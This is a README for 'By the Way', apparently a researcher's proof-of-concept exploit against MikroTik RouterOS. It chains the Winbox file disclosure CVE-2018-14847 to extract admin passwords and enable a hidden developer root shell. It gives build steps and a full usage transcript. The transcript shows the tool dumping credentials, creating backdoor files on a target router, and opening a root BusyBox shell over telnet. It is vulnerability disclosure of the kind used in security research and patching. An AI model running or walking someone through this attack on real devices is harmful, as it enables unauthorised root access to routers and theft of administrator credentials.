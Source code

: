 # By the Way

By the Way is an exploit that enables a root shell on Mikrotik devices running RouterOS versions:

Patch: x - 6.40.7
Current: x - 6.42

The exploit leverages the file disclosure vulnerability CVE-2018-14847 to extract the admin password and create an "option" package to enable the developer backdoor. Post exploitation the attacker can connect to Telnet or SSH using the root user "devel" with the admin's password.

Note that, while this exploit is written for Winbox, it could be ported to HTTP as long as you had prior knowledge of the admin credentials.

## Dependencies
This PoC relies on:

* Boost
* pthread
* cmake

## Build Insturctions

```sh
albinolobster@ubuntu:~/mikrotik$ cd poc/bytheway/
albinolobster@ubuntu:~/mikrotik/poc/bytheway$ mkdir build
albinolobster@ubuntu:~/mikrotik/poc/bytheway$ cd build/
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ cmake ..
-- The C compiler identification is GNU 7.3.0
-- The CXX compiler identification is GNU 7.3.0
-- Check for working C compiler: /usr/bin/cc
-- Check for working C compiler: /usr/bin/cc -- works
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Detecting C compile features
-- Detecting C compile features - done
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ -- works
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Boost version: 1.65.1
-- Found the following Boost libraries:
--   program_options
--   system
--   regex
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/mikrotik/poc/bytheway/build
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ make
Scanning dependencies of target btw
[ 20%] Building CXX object CMakeFiles/btw.dir/src/main.cpp.o
[ 40%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/md5.cpp.o
[ 60%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/winbox_session.cpp.o
[ 80%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/winbox_message.cpp.o
[100%] Linking CXX executable btw
[100%] Built target btw
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ 
```

## Usage Example

```sh
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 
Login failed, incorrect username or password

Connection closed by foreign host.
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ ./btw -i 192.168.1.251

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴ 

[+] Extracting passwords from 192.168.1.251:8291
[+] Searching for administrator credentials 
[+] Using credentials - admin:lol
[+] Creating /pckg/option on 192.168.1.251:8291
[+] Creating /flash/nova/etc/devel-login on 192.168.1.251:8291
[+] There's a light on
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2017.03.02-08:29+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5 #1 Thu Mar 2 08:16:25 UTC 2017 mips unknown
# cat /rw/logs/VERSION
v6.38.4 Mar/08/2017 09:26:17
# Connection closed by foreign host.
```

